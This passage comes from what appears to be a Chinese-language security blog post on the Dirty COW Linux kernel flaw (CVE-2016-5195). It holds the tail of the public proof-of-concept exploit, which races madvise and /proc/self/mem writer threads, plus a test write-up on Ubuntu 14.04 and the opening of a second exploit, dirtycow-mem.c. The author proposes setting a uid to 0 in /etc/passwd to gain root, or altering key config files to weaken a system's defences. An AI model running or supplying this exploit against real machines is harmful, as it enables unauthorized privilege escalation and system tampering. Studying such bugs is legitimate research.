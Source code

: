 > mmap() call are visible in the mapped region.
*/
/*
You have to open with PROT_READ.
*/
  map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
  printf("mmap %x\n\n",map);
/*
You have to do it on two threads.
*/
  pthread_create(&pth1,NULL,madviseThread,argv[1]);
  pthread_create(&pth2,NULL,procselfmemThread,argv[2]);
/*
You have to wait for the threads to finish.
*/
  pthread_join(pth1,NULL);
  pthread_join(pth2,NULL);
  return 0;
}
{% endhighlight %}

## PoC Test

Environment:

Ubuntu 14.04 LTS  
Linux Kernel 3.13.0-98-generic

测试按照 PoC 源代码首部注释所述进行：

![0]({{ site.url }}/images/dirtycow/dirtycow-0.png)

![0]({{ site.url }}/images/dirtycow/dirtycow-1.png)

![0]({{ site.url }}/images/dirtycow/dirtycow-2.png)

![0]({{ site.url }}/images/dirtycow/dirtycow-3.png)

多次测试后发现写入不太稳定，比如上例中 **hello,world** 并没有完全写入。这可能会给提权带来一些困难，比如我们要在当前用户下把 `/etc/passwd` 中对应 uid 改成 0，这可能需要配合一些其他技巧。但是洞确实挺厉害。即使不用做提权，用来修改一些重要的配置文件也是不错的，或许可以降低整个系统的防御能力。

## Exp及原理

下面是 Github 上的 dirtycow-mem.c，在下个部分中我将对此代码进行测试。

{% highlight c %}
/*
 * CVE-2016-5195 dirtypoc
 *
 * This PoC is memory only and doesn't write anything on the filesystem.
 * /!\ Beware, it triggers a kernel crash a few minutes.
 *
 * gcc -Wall -o dirtycow-mem dirtycow-mem.c -ldl -lpthread
 */

#define _GNU_SOURCE
#include <err.h>
#include <dlfcn.h>
#include <stdio.h>
#include <fcntl.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <limits.h>
#include <pthread.h>